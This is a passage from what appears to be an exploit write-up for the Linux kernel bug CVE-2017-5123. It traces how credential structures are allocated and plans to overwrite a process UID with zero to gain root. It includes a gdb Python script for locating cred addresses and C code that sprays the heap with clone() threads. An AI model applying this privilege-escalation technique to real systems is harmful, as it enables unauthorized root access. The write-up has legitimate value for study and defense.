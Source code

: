 ```c
.........

error_put:
	put_cred(new);
	return ret;
}
```
As we can see, this function calls `prepare_creds` where the real allocation is performed.

We have now a path to allocate an (pseudo)arbitrary number of _struct cred_:
1. `_do_fork()`
2. `copy_process()`
3. `copy_creds()`

Our last problems is how to call `_do_fork()` from userspace. We can use `fork` but this can be slow so we will use `clone` instead.

**Note**: we can't use `pthread` because of the flags: if you look the code `copy_creds` you should notice that there is a path where the structure is not really allocated.


## Put it all togheter
Now, a little recap:
1. we are able to trigger the bug and write in the memory
2. we know that we can write `0` in the memory
3. we know that if we overwrite the _UID_ of one process with `0`, it obtains _root_ permissions.

Now we need to know **where** write in memory and ,altought KASLR is disabled, the address of one `struct cred` is not enough stable so I decided to proced with _memory spraying_.


## Spraying
We need to find the `struct cred` in memory in order to detect a range of addresses. We can use _gdb_ and _python_ with a script like [this](https://github.com/c3r34lk1ll3r/CVE-2017-5123/blob/master/creds.py):
```python
....
for task in task_lists():
    #gdb.write("{address} {pid} {comm}\n".format(
    #    address=task,
    #    pid=task["pid"],
    #    comm=task["comm"].string()))
    comm = task["comm"].string()
    # Insert your executable name
    if comm == "exploit":
        print(task['cred'])
....
```
**Note**: this script works only with KASLR disabled and with debug symbols (we neeed `init_task` pointer).
We can try a few times and we can see that the heap grown down so we can try a lower and go high.

Now we can use `clone` system call to spawn a lot of processes and thanks to _gdb_ we can check the addresses:
```c
stack=malloc(STACK_SIZE)+STACK_SIZE;
  for(x=0;x<MAX_THREADS;x++){
    stackTop = malloc(STACK_SIZE) + STACK_SIZE;
    if (!stackTop){
      perror("[-] Malloc");
      return -1;
    }
    // spray_thread function can simply be a infinite loop
    pid = clone(spray_thread, stackTop, CLONE_VM | CLONE_FS|CLONE_FILES|CLONE_SYSVSEM | SIGCHLD, NULL);
```